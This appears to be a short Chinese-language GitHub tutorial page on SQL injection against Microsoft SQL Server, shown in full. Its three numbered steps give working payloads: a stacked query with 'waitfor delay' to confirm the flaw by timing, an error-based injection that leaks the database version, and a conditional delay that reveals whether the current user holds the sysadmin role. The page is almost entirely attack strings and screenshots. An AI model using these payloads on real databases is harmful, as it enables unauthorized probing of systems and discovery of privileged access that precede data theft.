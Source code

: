 ### 0、堆叠查询+时间盲注检测漏洞是否存在
```
select session_id from sys.dm_exec_requests where session_id=12; waitfor delay '0:0:5'--
```
![image](./pic/0.png)

### 1、报错注入查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
![image](./pic/1.png)

### 2、堆叠查询+时间盲注查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
![image](./pic/2.png)
